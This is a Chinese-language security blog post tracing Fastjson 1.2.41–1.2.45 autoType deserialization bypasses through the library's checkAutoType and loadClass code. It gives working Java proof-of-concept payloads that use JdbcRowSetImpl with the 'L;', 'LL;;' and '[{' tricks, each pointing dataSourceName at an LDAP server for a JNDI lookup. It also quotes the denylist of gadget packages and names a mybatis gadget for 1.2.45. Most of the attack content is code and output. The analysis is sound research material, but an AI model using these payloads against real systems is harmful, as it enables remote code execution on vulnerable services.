








+++
title= "Fastjson1.4.X反序列化漏洞"
slug= "fastjson-1.2.4x-deserialization"
description= "1.2.47缓存让你RCE！"
date= "2025-10-17T21:53:02+08:00"
lastmod= "2025-10-17T21:53:02+08:00"
image= ""
license= ""
categories= ["Javasec"]
tags= [""]

+++

## 1.2.41

```java
if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
        String typeName = lexer.scanSymbol(this.symbolTable, '"');
        if (!lexer.isEnabled(Feature.IgnoreAutoType)) {
            Class<?> clazz = null;
            if (object != null && object.getClass().getName().equals(typeName)) {
                clazz = object.getClass();
            } else {
                clazz = this.config.checkAutoType(typeName, (Class)null, lexer.getFeatures());
            }
```

由于 IgnoreAutoType 一般都不开启，所以如果并不是还是会到 checkAutoType

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
        if (typeName == null) {
            return null;
        } else if (typeName.length() >= 128) {
            throw new JSONException("autoType is not support. " + typeName);
        } else {
            String className = typeName.replace('$', '.');
            Class<?> clazz = null;
            if (this.autoTypeSupport || expectClass != null) {
                for(int i = 0; i < this.acceptList.length; ++i) {
                    String accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        if (clazz != null) {
                            return clazz;
                        }
                    }
                }

                for(int i = 0; i < this.denyList.length; ++i) {
                    String deny = this.denyList[i];
                    if (className.startsWith(deny) && TypeUtils.getClassFromMapping(typeName) == null) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
            }

            if (clazz == null) {
                clazz = TypeUtils.getClassFromMapping(typeName);
            }

            if (clazz == null) {
                clazz = this.deserializers.findClass(typeName);
            }

            if (clazz != null) {
                if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                } else {
                    return clazz;
                }
            } else {
                if (!this.autoTypeSupport) {
                    for(int i = 0; i < this.denyList.length; ++i) {
                        String deny = this.denyList[i];
                        if (className.startsWith(deny)) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }
                    }

                    for(int i = 0; i < this.acceptList.length; ++i) {
                        String accept = this.acceptList[i];
                        if (className.startsWith(accept)) {
                            if (clazz == null) {
                                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                            }

                            if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                            }

                            return clazz;
                        }
                    }
                }

                if (clazz == null) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                }

                if (clazz != null) {
                    if (TypeUtils.getAnnotation(clazz, JSONType.class) != null) {
                        return clazz;
                    }

                    if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }

                    if (expectClass != null) {
                        if (expectClass.isAssignableFrom(clazz)) {
                            return clazz;
                        }

                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }

                    JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                    if (beanInfo.creatorConstructor != null && this.autoTypeSupport) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }

                int mask = Feature.SupportAutoType.mask;
                boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
                if (!autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                } else {
                    return clazz;
                }
            }
        }
    }
```

实际上我们只需要看这里



有个黑白名单检测，优先白名单，

```java
bsh
com.mchange
com.sun.
java.lang.Thread
java.net.Socket
java.rmi
javax.xml
org.apache.bcel
org.apache.commons.beanutils
org.apache.commons.collections.Transformer
org.apache.commons.collections.functors
org.apache.commons.collections4.comparators
org.apache.commons.fileupload
org.apache.myfaces.context.servlet
org.apache.tomcat
org.apache.wicket.util
org.codehaus.groovy.runtime
org.hibernate
org.jboss
org.mozilla.javascript
org.python.core
org.springframework
```

我们所使用的类并不在其中，属于既不在黑又不在白



跟进到 loadClass

```java
public static Class<?> loadClass(String className, ClassLoader classLoader, boolean cache) {
    if (className != null && className.length() != 0) {
        Class<?> clazz = (Class)mappings.get(className);
        if (clazz != null) {
            return clazz;
        } else if (className.charAt(0) == '[') {
            Class<?> componentType = loadClass(className.substring(1), classLoader);
            return Array.newInstance(componentType, 0).getClass();
        } else if (className.startsWith("L") && className.endsWith(";")) {
            String newClassName = className.substring(1, className.length() - 1);
            return loadClass(newClassName, classLoader);
        } else {
            try {
                if (classLoader != null) {
                    clazz = classLoader.loadClass(className);
                    if (cache) {
                        mappings.put(className, clazz);
                    }

                    return clazz;
                }
            } catch (Throwable e) {
                e.printStackTrace();
            }

            try {
                ClassLoader contextClassLoader = Thread.currentThread().getContextClassLoader();
                if (contextClassLoader != null && contextClassLoader != classLoader) {
                    clazz = contextClassLoader.loadClass(className);
                    if (cache) {
                        mappings.put(className, clazz);
                    }

                    return clazz;
                }
            } catch (Throwable var6) {
            }

            try {
                clazz = Class.forName(className);
                mappings.put(className, clazz);
                return clazz;
            } catch (Throwable var5) {
                return clazz;
            }
        }
    } else {
        return null;
    }
```

发现多了个逻辑问题



所以最终poc如下

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = String.format(
                "{\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                    "\"dataSourceName\":\"ldap://127.0.0.1:1389/#Eval\"," +
                    "\"autoCommit\":true}"
        );

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```



调用栈如下

```java
at com.sun.jndi.ldap.LdapCtx.c_lookup(LdapCtx.java:1017)
at com.sun.jndi.toolkit.ctx.ComponentContext.p_lookup(ComponentContext.java:542)
at com.sun.jndi.toolkit.ctx.PartialCompositeContext.lookup(PartialCompositeContext.java:177)
at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
at com.sun.jndi.url.ldap.ldapURLContext.lookup(ldapURLContext.java:94)
at javax.naming.InitialContext.lookup(InitialContext.java:417)
at com.sun.rowset.JdbcRowSetImpl.connect(JdbcRowSetImpl.java:624)
at com.sun.rowset.JdbcRowSetImpl.setAutoCommit(JdbcRowSetImpl.java:4067)
at sun.reflect.NativeMethodAccessorImpl.invoke0(NativeMethodAccessorImpl.java:-1)
at sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)
at sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)
at java.lang.reflect.Method.invoke(Method.java:497)
at com.alibaba.fastjson.parser.deserializer.FieldDeserializer.setValue(FieldDeserializer.java:96)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:587)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.parseRest(JavaBeanDeserializer.java:916)
at com.alibaba.fastjson.parser.deserializer.FastjsonASMDeserializer_1_JdbcRowSetImpl.deserialze(Unknown Source:-1)
at com.alibaba.fastjson.parser.deserializer.JavaBeanDeserializer.deserialze(JavaBeanDeserializer.java:184)
at com.alibaba.fastjson.parser.DefaultJSONParser.parseObject(DefaultJSONParser.java:368)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1327)
at com.alibaba.fastjson.parser.DefaultJSONParser.parse(DefaultJSONParser.java:1293)
at com.alibaba.fastjson.JSON.parse(JSON.java:137)
at com.alibaba.fastjson.JSON.parse(JSON.java:193)
at com.alibaba.fastjson.JSON.parseObject(JSON.java:197)
at org.fastjson.JdbcRowSetImplPOC.main(JdbcRowSetImplPOC.java:16)
```

而且你会发现这个逻辑漏洞他居然是递归解析的，所以说我们写`LL  ;;`也可以

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = String.format(
                "{\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                        "\"dataSourceName\":\"ldap://127.0.0.1:1389/#Eval\"," +
                        "\"autoCommit\":true}"
        );

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```



## 1.2.42

直接查看 checkAutoType

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    } else if (typeName.length() < 128 && typeName.length() >= 3) {
        String className = typeName.replace('$', '.');
        Class<?> clazz = null;
        long BASIC = -3750763034362895579L;
        long PRIME = 1099511628211L;
        if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
            className = className.substring(1, className.length() - 1);
        }

        long h3 = (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L ^ (long)className.charAt(2)) * 1099511628211L;
        if (this.autoTypeSupport || expectClass != null) {
            long hash = h3;

            for(int i = 3; i < className.length(); ++i) {
                hash ^= (long)className.charAt(i);
                hash *= 1099511628211L;
                if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }

                if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }

        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
            if (!this.autoTypeSupport) {
                long hash = h3;

                for(int i = 3; i < className.length(); ++i) {
                    char c = className.charAt(i);
                    hash ^= (long)c;
                    hash *= 1099511628211L;
                    if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }

                    if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                        if (clazz == null) {
                            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        }

                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }

            if (clazz == null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
            }

            if (clazz != null) {
                if (TypeUtils.getAnnotation(clazz, JSONType.class) != null) {
                    return clazz;
                }

                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                if (beanInfo.creatorConstructor != null && this.autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }

            int mask = Feature.SupportAutoType.mask;
            boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
            if (!autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    } else {
        throw new JSONException("autoType is not support. " + typeName);
    }
}
```

很显然给换成 hash 来匹配名单了，主要看这里，还是那个逻辑漏洞

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
    className = className.substring(1, className.length() - 1);
}
```

会进行一次切片，把`LL  ;;`切成`L  ;`，但是我看了下 loadClass，没有改变，所以最终 poc 也一目了然了~

## 1.2.43

```java
public Class<?> checkAutoType(String typeName, Class<?> expectClass, int features) {
    if (typeName == null) {
        return null;
    } else if (typeName.length() < 128 && typeName.length() >= 3) {
        String className = typeName.replace('$', '.');
        Class<?> clazz = null;
        long BASIC = -3750763034362895579L;
        long PRIME = 1099511628211L;
        if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
            if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
                throw new JSONException("autoType is not support. " + typeName);
            }

            className = className.substring(1, className.length() - 1);
        }

        long h3 = (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L ^ (long)className.charAt(2)) * 1099511628211L;
        if (this.autoTypeSupport || expectClass != null) {
            long hash = h3;

            for(int i = 3; i < className.length(); ++i) {
                hash ^= (long)className.charAt(i);
                hash *= 1099511628211L;
                if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                    if (clazz != null) {
                        return clazz;
                    }
                }

                if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0 && TypeUtils.getClassFromMapping(typeName) == null) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }
        }

        if (clazz == null) {
            clazz = TypeUtils.getClassFromMapping(typeName);
        }

        if (clazz == null) {
            clazz = this.deserializers.findClass(typeName);
        }

        if (clazz != null) {
            if (expectClass != null && clazz != HashMap.class && !expectClass.isAssignableFrom(clazz)) {
                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
            } else {
                return clazz;
            }
        } else {
            if (!this.autoTypeSupport) {
                long hash = h3;

                for(int i = 3; i < className.length(); ++i) {
                    char c = className.charAt(i);
                    hash ^= (long)c;
                    hash *= 1099511628211L;
                    if (Arrays.binarySearch(this.denyHashCodes, hash) >= 0) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }

                    if (Arrays.binarySearch(this.acceptHashCodes, hash) >= 0) {
                        if (clazz == null) {
                            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
                        }

                        if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                            throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                        }

                        return clazz;
                    }
                }
            }

            if (clazz == null) {
                clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader, false);
            }

            if (clazz != null) {
                if (TypeUtils.getAnnotation(clazz, JSONType.class) != null) {
                    return clazz;
                }

                if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                    throw new JSONException("autoType is not support. " + typeName);
                }

                if (expectClass != null) {
                    if (expectClass.isAssignableFrom(clazz)) {
                        return clazz;
                    }

                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                }

                JavaBeanInfo beanInfo = JavaBeanInfo.build(clazz, clazz, this.propertyNamingStrategy);
                if (beanInfo.creatorConstructor != null && this.autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                }
            }

            int mask = Feature.SupportAutoType.mask;
            boolean autoTypeSupport = this.autoTypeSupport || (features & mask) != 0 || (JSON.DEFAULT_PARSER_FEATURE & mask) != 0;
            if (!autoTypeSupport) {
                throw new JSONException("autoType is not support. " + typeName);
            } else {
                return clazz;
            }
        }
    } else {
        throw new JSONException("autoType is not support. " + typeName);
    }
}
```

看到这里

```java
if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(className.length() - 1)) * 1099511628211L == 655701488918567152L) {
        if (((-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L ^ (long)className.charAt(1)) * 1099511628211L == 655656408941810501L) {
            throw new JSONException("autoType is not support. " + typeName);
        }

        className = className.substring(1, className.length() - 1);
    }
```

如果遇到了`LL`开头直接就抛出错误了，但是仍然是可以Bypass的，而且这个姿势非常的亏贼，我们知道`"`是字符串的结束符。此时解析到的类名为` [com.sun.rowset.JdbcRowSetImpl`，到这里，接着下一步解析器希望得到的值是`,`或者`}`，我们如果就这么去写 poc 的话得到抛出错误为

```java
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,
```

添加之后得到

```java
Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect {, actual string, pos 43, fastjson-version 1.2.43
```



居然梦幻般地弹出了计算器

```java
package org.fastjson;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;

public class JdbcRowSetImplPOC {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = String.format(
                "{\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{," +
                        "\"dataSourceName\":\"ldap://127.0.0.1:1389/#Eval\"," +
                        "\"autoCommit\":true}"
        );

        JSON.parseObject(payload, Feature.SupportNonPublicField);
    }
}
```

因为`[{` 组合成功地将解析器推入了一个新状态，它认为自己正在解析一个对象数组，并且这个数组的类型就是刚刚检查通过的那个类。也就 loadClass 了！

## 1.2.44

修复了 1.2.43 的亏贼绕过

## 1.2.45

这个版本比较安全了，但是如果有外部依赖的非黑名单类依旧可以打

```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>

    <groupId>org.example</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.0-SNAPSHOT</version>

    <properties>
        <maven.compiler.source>8</maven.compiler.source>
        <maven.compiler.target>8</maven.compiler.target>
        <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
        <fastjson.version>1.2.45</fastjson.version>
        <javassist.version>3.28.0-GA</javassist.version>
        <mybatis.version>3.5.6</mybatis.version>
    </properties>

    <dependencies>
        <dependency>
            <groupId>com.alibaba</groupId>
            <artifactId>fastjson</artifactId>
            <version>${fastjson.version}</version>
        </dependency>

        <dependency>
            <groupId>org.javassist</groupId>
            <artifactId>javassist</artifactId>
            <version>${javassist.version}</version>
        </dependency>

        <dependency>
            <groupId>org.mybatis</groupId>
            <artifactId>mybatis</artifactId>
            <version>${mybatis.version}</version>
        </dependency>
    </dependencies>
</project>
```

poc如下，一样的有 setter 方法

```java
public void setProperties(Properties properties) {
    try {
        Properties env = getEnvProperties(properties);
        InitialContext initCtx;
        if (env == null) {
            initCtx = new InitialContext();
        } else {
            initCtx = new InitialContext(env);
        }

        if (properties.containsKey("initial_context") && properties.containsKey("data_source")) {
            Context ctx = (Context)initCtx.lookup(properties.getProperty("initial_context"));
            this.dataSource = (DataSource)ctx.lookup(properties.getProperty("data_source"));
        } else if (properties.containsKey("data_source")) {
            this.dataSource = (DataSource)initCtx.lookup(properties.getProperty("data_source"));
        }

    } catch (NamingException e) {
        throw new DataSourceException("There was an error configuring JndiDataSourceTransactionPool. Cause: " + e, e);
    }
}
```

能触发到 lookup 方法，所以就没啥问题了

